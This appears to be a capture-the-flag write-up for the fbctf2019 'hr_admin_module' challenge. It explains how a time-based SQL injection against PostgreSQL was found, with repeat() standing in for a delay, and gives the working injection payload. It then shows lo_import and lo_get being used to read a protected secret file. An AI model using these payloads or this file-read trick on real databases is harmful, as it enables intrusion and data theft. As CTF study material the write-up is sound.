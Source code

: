 # hr_admin_module

This challenge tells us that there are some secrets in the `/var/lib/postgresql/data/secret`, but the current user doesn't have sufficient permissions to access it.

(This path tells us that backend DBMS is `postgresql`.)

There is a weird disabled function `Search users`, but we can still send the request with the parameter `user_search`.

If my input is invalid SQL statement, it will show the warning message on the next request.

e.g. 

- warning: `admin'`, `'''`, `'kaibro_30_cm`, ...
- no warning: `admin'--`, `''`, `'||'kaibro_30_cm`, ...

This is an obvious SQL Injection vulnerability.

And this chellenge seems like to restrict the permissions of some functions, e.g. `pg_sleep()`, `pg_read_file()`, ...

But I found that `repeat()` function will cause time delay!

e.g. `'and 1=2 union select NULL, (select case when 1=1 then (select repeat('a', 10000000)) else NULL end)--`

Now, we have Time-based SQL Injection!

My injection script is [here](https://github.com/w181496/CTF/blob/master/fbctf2019/hr_admin_module/exp.py).

Let's dump some basic information:

```
version: (Debian 11.2-1.pgdg90+1)
current_db: docker_db
current_schema: public
table of public: searches
columns of searches: id,search
current_query: SELECT * FROM searches WHERE search = 'YOUR_INPUT'
```

Nothing special :(

The table `searches` seems empty and we don't have permissions to use any system administration functions like `pg_read_file()`, `pg_ls_dir()` or `pg_stat_file()`.

But the path of secret looks like postgresql default data directory.

This means we should read file by some special file functions.

So I guess there are some special functions with wrong permissions that can be used to read the secret file.

I browsed the postgres documentation and postgres src the whole day, but nothing special.

At last, I build a local postgresql environment and try to find all functions that contain the `file` in the function name:

`SELECT proname FROM pg_proc WHERE proname like '%file%';`

=>

```
 pg_stat_get_db_temp_files
 pg_walfile_name_offset
 pg_walfile_name
 pg_rotate_logfile_old
 pg_read_file_old
 pg_read_file
 pg_read_binary_file
 pg_stat_file
 pg_relation_filenode
 pg_filenode_relation
 pg_relation_filepath
 pg_show_all_file_settings
 pg_hba_file_rules
 pg_rotate_logfile
 pg_current_logfile
```

But these functions are all useless.

After that, I tried to find all functions with `read` in the function name:

`SELECT proname FROM pg_proc WHERE proname like '%read%';`

=>

```
 loread
 pg_stat_get_db_blk_read_time
 pg_read_file_old
 pg_read_file
 pg_read_binary_file
```

The first function looks so weird.

Then I found a series of this function: `lo_import`, `lo_open`, `lo_read`, ... in the [documentation](https://www.postgresql.org/docs/11/lo-funcs.html).

The `lo_import()` can load file into postgres object.

Let's try it: `lo_import('/var/lib/postgresql/data/secret')`.

=> return a number `18440`.

This number is the object id, and this means that secret file load into object successfully!

Now, we can use `lo_get(oid)` function to read the object content by the corresponding oid.

```
select cast(lo_import('/var/lib/postgresql/data/secret') as text)
=> 18440

select cast(lo_get(18440) as text)
=> \x66627b4040646e....
```


flag: `fb{@@dns_3xfil_f0r_the_w1n!!@@}`

(it looks like this is unintended solution :p)

